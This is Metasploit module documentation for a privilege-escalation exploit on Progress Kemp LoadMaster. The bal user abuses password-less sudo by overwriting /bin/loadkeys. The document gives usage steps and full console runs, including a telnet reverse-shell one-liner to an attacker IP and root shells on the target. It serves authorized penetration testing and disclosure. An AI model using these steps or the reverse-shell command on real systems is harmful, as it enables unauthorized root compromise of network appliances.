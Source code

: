 ## Vulnerable Application
Progress Kemp LoadMaster up to at least 7.2.59.2.22338.  The vendor is aware of this "feature," but
has chosen not to change the behavior.  It was originally paired with CVE-2024-1212, but as this
privilege escalation was not patched when CVE-2024-1212 was, we split it into its own module.
This exploit/feature allows the default `bal` user to run several binaries with the `sudo` prefix
that will elevate without prompting for a password.  As the configuration is based on filename and
the `bal` user has write permissions to these files, the `bal` user can simply write over the existing
binary with one of their choosing, then prefix it with `sudo` and launch the binary with `root`
privileges.
This module defaults to overwrite `/bin/loadkeys` with `/bin/bash`, though other binaries would work,
too.

For more details on the vulnerability:  
https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/

https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212

A trial VM which the exploit should work against out of the box can be downloaded from:
https://sso.kemptechnologies.com/register/kemp/vlm

The AWS marketplace also has free trials which can be used. These require the "session management" to be enabled in order for the exploit to work. Since by default the admin WUI is behind basic auth.
https://aws.amazon.com/marketplace/pp/prodview-kgh3dsfk7qcnw

Because this is an appliance, there are limited commands available for command-based payloads.

## Verification Steps
1. Install the application
1. Start msfconsole
1. Gain a session on a Progress Kemp Loadmaster target as the `bal` user
1. Do: `use exploits/linux/local/progress_kemp_loadmaster_sudo_privesc_2024`
1. Do: `set SESSION <session>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `root` user.

## Scenarios

### LoadMaster 7.2.59.0.22007
#### Metasploit Binary Dropper Payload
```msf
msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > show options

Module options (exploit/linux/local/progress_kemp_loadmaster_sudo_privesc_2024):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SESSION        1                yes       The session to run this module on
   TARGET_BINARY  /bin/loadkeys    yes       The path for a binary file that has permission to auto-elevate.
   WRITABLE_DIR   /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found 3 indicators this is a KEMP product
[!] The service is running, but could not be validated.
[*] Writing payload to /tmp/.rypuliojtdch
[*] Moving /bin/loadkeys to /tmp/.qyiojnfbnfc
[*] Moving /tmp/.rypuliojtdch to /bin/loadkeys
[*] Running /bin/loadkeys
[+] Deleted /tmp/.rypuliojtdch
[*] Meterpreter session 2 opened (10.5.135.201:4444 -> 10.5.134.141:28850) at 2024-05-10 08:50:39 -0500
[*] Moving /tmp/.qyiojnfbnfc to /bin/loadkeys
[+] /bin/loadkeys returned to original contents

meterpreter > sysinfo
Computer     : 10.5.134.141
OS           : SuSE 7.2 (Linux 4.14.137)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > 


```

#### Reverse Bash Command Payload
```msf
msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > show options

Module options (exploit/linux/local/progress_kemp_loadmaster_sudo_privesc_2024):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SESSION        1                yes       The session to run this module on
   TARGET_BINARY  /bin/loadkeys    yes       The path for a binary file that has permission to auto-elevate.
   WRITABLE_DIR   /tmp             yes       A directory where we can write files


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > run

[+] sh -c '(sleep 4376|telnet 10.5.135.201 4444|while : ; do sh && break; done 2>&1|telnet 10.5.135.201 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found 3 indicators this is a KEMP product
[!] The service is running, but could not be validated.
[*] Preparing payload command
[*] Moving /bin/loadkeys to /tmp/.mnqdvfwutfd
[*] Moving /bin/bash to /bin/loadkeys
[*] Running payload command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo igZFhKRnh9GplIdu;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\nigZFhKRnh9GplIdu\r\n"
[*] 
[*] Moving /tmp/.mnqdvfwutfd to /bin/loadkeys
[*] Matching...
[*] B is input...
[+] /bin/loadkeys returned to original contents

ls
azurelinuxagent
bin
cgroup
dev
dmZPnkPUPoV
etc
initial_setup.sh
lib
lib64
lost+found
mnt
one4net
openssl
proc
root
sbin
sks
sys
tmp
user
usr
var
touch tempfile
ls -l
total 51
drwxr-xr-x   5 root root  1024 Mar 22  2023 azurelinuxagent
.
.
.
-rw-r--r--   1 root root     0 May  3 17:02 tempfile
.
.
drwxr-xr-x  12 root root  1024 Mar 21 17:29 var
```